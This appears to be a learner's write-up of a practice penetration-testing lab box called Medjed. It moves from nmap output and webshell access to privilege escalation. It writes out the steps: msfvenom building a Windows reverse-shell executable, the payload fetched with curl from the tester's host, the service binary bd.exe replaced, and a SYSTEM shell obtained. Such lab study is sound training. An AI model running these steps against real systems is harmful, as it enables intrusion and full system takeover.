## NMAP
```
PORT      STATE SERVICE       REASON          VERSION
135/tcp   open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 125 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack ttl 125
3306/tcp  open  mysql         syn-ack ttl 125 MariaDB 10.3.24 or later (unauthorized)
5040/tcp  open  unknown       syn-ack ttl 125
7680/tcp  open  tcpwrapped    syn-ack ttl 125
8000/tcp  open  http-alt      syn-ack ttl 125 BarracudaServer.com (Windows)
|_http-server-header: BarracudaServer.com (Windows)
|_http-favicon: Unknown favicon MD5: FDF624762222B41E2767954032B6F1FF
| http-methods: 
|   Supported Methods: OPTIONS GET HEAD PROPFIND PUT COPY DELETE MOVE MKCOL PROPPATCH LOCK UNLOCK POST
|_  Potentially risky methods: PROPFIND PUT COPY DELETE MOVE MKCOL PROPPATCH LOCK UNLOCK
|_http-title: Home
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 200 OK
|     Date: Tue, 17 Mar 2026 11:43:03 GMT
|     Server: BarracudaServer.com (Windows)
|     Connection: Close
|   GenericLines: 
|     HTTP/1.1 200 OK
|     Date: Tue, 17 Mar 2026 11:42:57 GMT
|     Server: BarracudaServer.com (Windows)
|     Connection: Close
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Date: Tue, 17 Mar 2026 11:42:58 GMT
|     Server: BarracudaServer.com (Windows)
|     Connection: Close
|   HTTPOptions, RTSPRequest: 
|     HTTP/1.1 200 OK
|     Date: Tue, 17 Mar 2026 11:43:09 GMT
|     Server: BarracudaServer.com (Windows)
|     Connection: Close
|   SIPOptions: 
|     HTTP/1.1 400 Bad Request
|     Date: Tue, 17 Mar 2026 11:44:16 GMT
|     Server: BarracudaServer.com (Windows)
|     Connection: Close
|     Content-Type: text/html
|     Cache-Control: no-store, no-cache, must-revalidate, max-age=0
|     <html><body><h1>400 Bad Request</h1>Can't parse request<p>BarracudaServer.com (Windows)</p></body></html>
|   Socks5: 
|     HTTP/1.1 200 OK
|     Date: Tue, 17 Mar 2026 11:43:04 GMT
|     Server: BarracudaServer.com (Windows)
|_    Connection: Close
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
| http-webdav-scan: 
|   Allowed Methods: OPTIONS, GET, HEAD, PROPFIND, PUT, COPY, DELETE, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK
|   Server Type: BarracudaServer.com (Windows)
|   WebDAV type: Unknown
|_  Server Date: Tue, 17 Mar 2026 11:45:40 GMT
30021/tcp open  ftp           syn-ack ttl 125 FileZilla ftpd 0.9.41 beta
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -r--r--r-- 1 ftp ftp            536 Nov 03  2020 .gitignore
| drwxr-xr-x 1 ftp ftp              0 Nov 03  2020 app
| drwxr-xr-x 1 ftp ftp              0 Nov 03  2020 bin
| drwxr-xr-x 1 ftp ftp              0 Nov 03  2020 config
| -r--r--r-- 1 ftp ftp            130 Nov 03  2020 config.ru
| drwxr-xr-x 1 ftp ftp              0 Nov 03  2020 db
| -r--r--r-- 1 ftp ftp           1750 Nov 03  2020 Gemfile
| drwxr-xr-x 1 ftp ftp              0 Nov 03  2020 lib
| drwxr-xr-x 1 ftp ftp              0 Nov 03  2020 log
| -r--r--r-- 1 ftp ftp             66 Nov 03  2020 package.json
| drwxr-xr-x 1 ftp ftp              0 Nov 03  2020 public
| -r--r--r-- 1 ftp ftp            227 Nov 03  2020 Rakefile
| -r--r--r-- 1 ftp ftp            374 Nov 03  2020 README.md
| drwxr-xr-x 1 ftp ftp              0 Nov 03  2020 test
| drwxr-xr-x 1 ftp ftp              0 Nov 03  2020 tmp
|_drwxr-xr-x 1 ftp ftp              0 Nov 03  2020 vendor
|_ftp-bounce: bounce working!
33033/tcp open  unknown       syn-ack ttl 125
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.1 400 Bad Request
|   GetRequest, HTTPOptions: 
|     HTTP/1.0 403 Forbidden
|     Content-Type: text/html; charset=UTF-8
|     Content-Length: 3102
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8" />
|     <title>Action Controller: Exception caught</title>
|     <style>
|     body {
|     background-color: #FAFAFA;
|     color: #333;
|     margin: 0px;
|     body, p, ol, ul, td {
|     font-family: helvetica, verdana, arial, sans-serif;
|     font-size: 13px;
|     line-height: 18px;
|     font-size: 11px;
|     white-space: pre-wrap;
|     pre.box {
|     border: 1px solid #EEE;
|     padding: 10px;
|     margin: 0px;
|     width: 958px;
|     header {
|     color: #F0F0F0;
|     background: #C52F24;
|     padding: 0.5em 1.5em;
|     margin: 0.2em 0;
|     line-height: 1.1em;
|     font-size: 2em;
|     color: #C52F24;
|     line-height: 25px;
|     .details {
|_    bord
44330/tcp open  ssl/unknown   syn-ack ttl 125
| ssl-cert: Subject: commonName=server demo 1024 bits/organizationName=Real Time Logic/stateOrProvinceName=CA/countryName=US/localityName=Laguna Niguel/emailAddress=ginfo@realtimelogic.com/organizationalUnitName=SharkSSL
| Issuer: commonName=demo CA/organizationName=Real Time Logic/stateOrProvinceName=CA/countryName=US/localityName=Laguna Niguel/emailAddress=ginfo@realtimelogic.com/organizationalUnitName=SharkSSL
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: md5WithRSAEncryption
| Not valid before: 2009-08-27T14:40:47
| Not valid after:  2019-08-25T14:40:47
| MD5:   3dd3:7bf7:464d:a77b:6d04:f44c:154b:7563
| SHA-1: 3dc2:5fc6:a16f:1c51:8eee:45ce:80cf:b35e:7f92:ebbe
| -----BEGIN CERTIFICATE-----
| MIICsTCCAhoCAQUwDQYJKoZIhvcNAQEEBQAwgZkxCzAJBgNVBAYTAlVTMQswCQYD
| VQQIEwJDQTEWMBQGA1UEBxMNTGFndW5hIE5pZ3VlbDEYMBYGA1UEChMPUmVhbCBU
| aW1lIExvZ2ljMREwDwYDVQQLEwhTaGFya1NTTDEQMA4GA1UEAxMHZGVtbyBDQTEm
| MCQGCSqGSIb3DQEJARYXZ2luZm9AcmVhbHRpbWVsb2dpYy5jb20wHhcNMDkwODI3
| MTQ0MDQ3WhcNMTkwODI1MTQ0MDQ3WjCBpzELMAkGA1UEBhMCVVMxCzAJBgNVBAgT
| AkNBMRYwFAYDVQQHEw1MYWd1bmEgTmlndWVsMRgwFgYDVQQKEw9SZWFsIFRpbWUg
| TG9naWMxETAPBgNVBAsTCFNoYXJrU1NMMR4wHAYDVQQDExVzZXJ2ZXIgZGVtbyAx
| MDI0IGJpdHMxJjAkBgkqhkiG9w0BCQEWF2dpbmZvQHJlYWx0aW1lbG9naWMuY29t
| MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQDI9kHT2xeC8GaBWFcTTqBLU2iF
| Jt8gu5khgjW1LMkOQ1GgX53+siZP4QxPaua0pIEaGXh/qe1wYmucEjxJvidsyFyN
| vgUjS7yP8AMCRGqdxhkbM4A5mcnmxu/8cRxFf19CIVnsD+netpHrscJfmk5f70cz
| QLQQ2NlT8exLSh+5cQIDAQABMA0GCSqGSIb3DQEBBAUAA4GBAJFWpZDFuw9DUEQW
| Uixb8tg17VjTMEQMd136md/KhwlDrhR2Dqk3cs1XRcuZxEHLN7etTBm/ubkMi6bx
| Jq9rgmn/obL94UNkhuV/0VyHQiNkBrjdf4eY6zNY71PgVBxC0wULL5pcpfo0xUKc
| IDMYIaRX7wyNO/lZcxIj0xmxTrqu
|_-----END CERTIFICATE-----
|_ssl-date: 2026-03-17T11:46:08+00:00; +2s from scanner time.
45332/tcp open  http          syn-ack ttl 125 Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.3.23)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1g PHP/7.3.23
| http-methods: 
|   Supported Methods: HEAD GET POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-title: Quiz App
45443/tcp open  http          syn-ack ttl 125 Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.3.23)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1g PHP/7.3.23
|_http-title: Quiz App
| http-methods: 
|   Supported Methods: HEAD GET POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
49664/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
```

## 445 SMB
```
┌──(kali㉿kali)-[~]
└─$ nxc smb 192.168.207.127 -u anonymous -p anonymous
SMB         192.168.207.127 445    MEDJED           [*] Windows 10 / Server 2019 Build 19041 x64 (name:MEDJED) (domain:medjed) (signing:False) (SMBv1:None)
SMB         192.168.207.127 445    MEDJED           [-] medjed\anonymous:anonymous STATUS_LOGON_FAILURE 
```

## 8000 HTTP
* STEP 1
`http://192.168.207.127:8000` -> `http://192.168.207.127:8000/Config-Wizard/wizard/SetAdmin.lsp`

  

* STEP 2
I set up some easy password then got redirected to `http://192.168.207.127:8000/Config-Wizard/intro/`

  

* STEP 3
`http://192.168.207.127:8000/rtl/about.lsp`
cve seems could use for Privilege Escalation 

  

  

* STEP 4
`http://192.168.207.127:8000/rtl/protected/wfslinks.lsp`

  

`http://192.168.207.127:8000/fs/`

  

  

* STEP 5
`http://192.168.207.127:8000/fs/?cmd=whoami`

  

* STEP 6
`https://192.168.207.127:44330/fs/C/`
It seems taht I can upload a file anywhere in C disk, but can trigger download when click on test.php file

  

  

  


## 45443 HTTP
* STEP 1
`http://192.168.207.127:45443/`
Another service host by target, found its source file in `https://192.168.207.127:44330/fs/C/xampp/htdocs/`

  

  

* STEP 2
`http://192.168.207.127:45443/rev.php?cmd=whoami`

  

  

## Privilege Escalation
1. `whoami /all`
```
┌──(kali㉿kali)-[~/Desktop/Pen200/Medjed]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.45.225] from (UNKNOWN) [192.168.207.127] 50523

PS C:\xampp\htdocs> whoami /all

USER INFORMATION
----------------

User Name     SID                                          
============= =============================================
medjed\jerren S-1-5-21-242175207-3260895204-4250494957-1003


GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes                                        
====================================== ================ ============ ==================================================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE               Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                          Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                  Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192                                                    


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State   
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled 
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
```

2. `ls C:\`
```
PS C:\xampp\htdocs> ls c:\


    Directory: C:\


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
d-----         3/17/2026   7:38 AM                bd                                                                   
d-----         11/3/2020   1:46 PM                FTP                                                                  
d-----         12/7/2019   4:14 AM                PerfLogs                                                             
d-r---         12/2/2021   1:08 PM                Program Files                                                        
d-r---         12/2/2021   3:35 PM                Program Files (x86)                                                  
d-----         11/3/2020   3:43 PM                RailsInstaller                                                       
d-----         11/3/2020   3:43 PM                Ruby26-x64                                                           
d-----         11/3/2020   4:40 PM                Sites                                                                
d-r---         12/2/2021  12:37 PM                Users                                                                
d-----          4/8/2022   8:51 AM                Windows                                                              
d-----        10/16/2020   6:51 PM                xampp                                                                
-a----         3/17/2026   7:34 AM           2696 output.txt                                                           
-a----         3/17/2026   8:46 AM            348 test.php
```

3. `CVE-2020-23834`

   

```
┌──(.venv)─(kali㉿kali)-[~/Desktop/Pen200/Medjed]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.225 LPORT=4445 -f exe -o reverse.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7680 bytes
Saved as: reverse.exe
                                                                                                                                                                                                                            
┌──(.venv)─(kali㉿kali)-[~/Desktop/Pen200/Medjed]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.207.127 - - [17/Mar/2026 10:02:08] "GET /reverse.exe HTTP/1.1" 200 -

```
```
PS C:\xampp\htdocs> cd c:\bd
PS C:\bd> ls


    Directory: C:\bd


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
d-----         11/3/2020  12:29 PM                applications                                                         
d-----         11/3/2020  12:29 PM                cache                                                                
d-----         11/3/2020  12:29 PM                cmsdocs                                                              
d-----         11/3/2020  12:29 PM                data                                                                 
d-----         11/3/2020  12:29 PM                themes                                                               
d-----          8/1/2024  10:49 PM                trace                                                                
-a----         11/3/2020  12:29 PM             38 bd.conf                                                              
-a----         11/3/2020  12:29 PM            259 bd.dat                                                               
-a----         4/26/2013   5:55 PM        1661648 bd.exe                                                               
-a----         6/12/2011   4:49 PM            207 bd.lua                                                               
-a----         4/26/2013   5:55 PM         912033 bd.zip                                                               
-a----         6/14/2012  12:21 PM          33504 bdctl.exe                                                            
-a----         3/17/2026   7:38 AM            151 dbcfg.dat                                                            
-a----         3/17/2026   7:38 AM            135 drvcnstr.dat                                                         
-a----         3/17/2026   7:38 AM             32 emails.dat                                                           
-a----         12/3/2010   4:52 PM           5139 install.txt                                                          
-a----        10/26/2010   4:38 PM         421200 msvcp100.dll                                                         
-a----        10/26/2010   4:38 PM         770384 msvcr100.dll                                                         
-a----         2/18/2013  10:39 PM         240219 non-commercial-license.rtf                                           
-a----          8/1/2024  10:49 PM              6 pidfile                                                              
-a----         4/26/2013   5:50 PM          16740 readme.txt                                                           
-a----         3/17/2026   7:38 AM            808 roles.dat                                                            
-a----         6/14/2012  12:21 PM         383856 sqlite3.exe                                                          
-a----         3/17/2026   7:38 AM             78 tuncnstr.dat                                                         
-a----         11/3/2020  12:29 PM         133107 Uninstall.exe                                                        
-a----         3/17/2026   7:38 AM            462 user.dat                                                             


PS C:\bd> mv bd.exe bd_.exe       
PS C:\bd> curl http://192.168.45.225/reverse.exe -o bd.exe     
PS C:\bd> shutdown /r /t 0
PS C:\bd>
```
```
┌──(kali㉿kali)-[~/Desktop/Pen200/Medjed]
└─$ nc -lvnp 4445
listening on [any] 4445 ...
connect to [192.168.45.225] from (UNKNOWN) [192.168.207.127] 49668
Microsoft Windows [Version 10.0.19042.1387]
(c) Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
whoami
nt authority\system

C:\WINDOWS\system32>

```